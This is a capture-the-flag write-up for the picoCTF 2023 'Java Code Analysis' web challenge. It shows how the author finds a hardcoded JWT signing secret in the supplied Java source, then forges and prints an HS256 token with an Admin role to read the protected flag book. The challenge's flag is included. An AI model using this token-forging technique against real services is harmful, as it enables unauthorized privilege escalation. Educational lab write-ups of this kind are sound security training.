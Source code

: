 # Java Code Analysis!?!
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)
## Challenge information
```text
Tags: Web Explotation, picoCTF 2023

Description:  
BookShelf Pico, my premium online book-reading service.
I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!

Hints:
1. Maybe try to find the JWT Signing Key ("secret key") in the source code? Maybe it's hardcoded somewhere? Or maybe try to crack it?
2. The 'role' and 'userId' fields in the JWT can be of interest to you!
3. The 'controllers', 'services' and 'security' java packages in the given source code might need your attention. We've provided a README.md file that contains some documentation.
4.  Upgrade your 'role' with the new (cracked) JWT. And re-login for the new role to get reflected in browser's localStorage.
```
## Overview
![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image1.png)  
* I tried logging in with any email and password, it returned `login failed`  
* I created an account with:  
    * Username : hacker
    * Mail: hacker@gmail.com
    * Password: Hacker@1  

* I created an account successfully and it logged me in  

![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image2.png)

* This is my profile
![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image3.png)  

* I can upload my avatar or change my password, it sounds like a file upload vulnerability, but we don't exploit it here.
![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image4.png)  

* I see that there is a book outside the home that is a flag. After accessing it, it requires me to have admin rights to view it. This will be the main exploitation point of this article (login with admin).
![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image5.png)  

* Read the source provided for better understanding
## Solution
**Step1:** Recon  
* I used burpsuite to catch requests when I logged in  
![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image6.png)  
![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image7.png)  
* As you can see, this is a JWT vulnerability, we can exploit it to log in with admin rights  
* This is the jwt code initialized by the web

```
Headers = {
  "typ": "JWT",
  "alg": "HS256"
}

Payload = {
  "role": "Free",
  "iss": "bookshelf",
  "exp": 1762172905,
  "iat": 1761568105,
  "userId": 6,
  "email": "hacker@gmail.com"
}

Signature = "KgSMr-IgBCERM85wFwvSaAbXoXHuRBZqwShjk1OO5b4"
```
* As you can see, the jwt code uses HS256 (a symmetric key) to sign  

```SQL
INSERT INTO roles VALUES ('Free', 1);
INSERT INTO roles VALUES ('Basic', 2);
INSERT INTO roles VALUES ('Premium', 3);
INSERT INTO roles VALUES ('Admin', 4);
```
* There are 4 roles initialized as above  
* Our job is to think of a way to find the public key, then change the role to admin and re-sign the jwt  

* This is the code of the JWTService section  
```java
package io.github.nandandesai.pico.security;

import com.auth0.jwt.JWT;
import com.auth0.jwt.JWTVerifier;
import com.auth0.jwt.algorithms.Algorithm;
import com.auth0.jwt.exceptions.JWTVerificationException;
import com.auth0.jwt.interfaces.DecodedJWT;
import io.github.nandandesai.pico.security.models.JwtUserInfo;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.stereotype.Service;

import java.util.Calendar;
import java.util.Date;

@Service
public class JwtService {

    private final String SECRET_KEY;

    private static final String CLAIM_KEY_USER_ID = "userId";
    private static final String CLAIM_KEY_EMAIL = "email";
    private static final String CLAIM_KEY_ROLE = "role";
    private static final String ISSUER = "bookshelf";

    @Autowired
    public JwtService(SecretGenerator secretGenerator){
        this.SECRET_KEY = secretGenerator.getServerSecret();
    }

    public String createToken(Integer userId, String email, String role){
        Algorithm algorithm = Algorithm.HMAC256(SECRET_KEY);

        Calendar expiration = Calendar.getInstance();
        expiration.add(Calendar.DATE, 7); //expires after 7 days

        return JWT.create()
                .withIssuer(ISSUER)
                .withIssuedAt(new Date())
                .withExpiresAt(expiration.getTime())
                .withClaim(CLAIM_KEY_USER_ID, userId)
                .withClaim(CLAIM_KEY_EMAIL, email)
                .withClaim(CLAIM_KEY_ROLE, role)
                .sign(algorithm);
    }

    public JwtUserInfo decodeToken(String token) throws JWTVerificationException {
        Algorithm algorithm = Algorithm.HMAC256(SECRET_KEY);
        JWTVerifier verifier = JWT.require(algorithm)
                .withIssuer(ISSUER)
                .build();
        DecodedJWT jwt = verifier.verify(token);
        Integer userId = jwt.getClaim(CLAIM_KEY_USER_ID).asInt();
        String email = jwt.getClaim(CLAIM_KEY_EMAIL).asString();
        String role = jwt.getClaim(CLAIM_KEY_ROLE).asString();
        return new JwtUserInfo().setEmail(email)
                .setRole(role)
                .setUserId(userId);
    }
}
```
* It can be seen that `expires after 7 days` 
=> There is no need to worry about the expiration time jwt  
```java
 public JwtService(SecretGenerator secretGenerator){
        this.SECRET_KEY = secretGenerator.getServerSecret();
    }
``` 
*   The secret key is obtained from `secretGenerator` , now let's take a look  
```java
package io.github.nandandesai.pico.security;

import io.github.nandandesai.pico.configs.UserDataPaths;
import io.github.nandandesai.pico.utils.FileOperation;
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.stereotype.Service;

import java.io.IOException;
import java.nio.charset.Charset;

@Service
class SecretGenerator {
    private Logger logger = LoggerFactory.getLogger(SecretGenerator.class);
    private static final String SERVER_SECRET_FILENAME = "server_secret.txt";

    @Autowired
    private UserDataPaths userDataPaths;

    private String generateRandomString(int len) {
        // not so random
        return "1234";
    }

    String getServerSecret() {
        try {
            String secret = new String(FileOperation.readFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME), Charset.defaultCharset());
            logger.info("Server secret successfully read from the filesystem. Using the same for this runtime.");
            return secret;
        }catch (IOException e){
            logger.info(SERVER_SECRET_FILENAME+" file doesn't exists or something went wrong in reading that file. Generating a new secret for the server.");
            String newSecret = generateRandomString(32);
            try {
                FileOperation.writeFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME, newSecret.getBytes());
            } catch (IOException ex) {
                ex.printStackTrace();
            }
            logger.info("Newly generated secret is now written to the filesystem for persistence.");
            return newSecret;
        }
    }
}
```
* From the code above, we can simply understand `secretkey=1234`  

**Step2:** Exploit  
* Create a jwt code with role admin, userID equal to 2 (I tried 1 but it didn't work) and re-sign the code with secretkey =1234  
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NjIxNzU2MTIsImlhdCI6MTc2MTU3MDgxMiwidXNlcklkIjoyLCJlbWFpbCI6ImhhY2tlckBnbWFpbC5jb20ifQ.ogABvx_CsEmSjXNp87OEQ5jY7qUMIkNmV3gu7SZTRWw`
* Select inspect then go to local storage and change the parameters to make them valid  
![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image8.png)  
## Flag
`picoCTF{w34k_jwt_n0t_g00d_6e5d7df5}`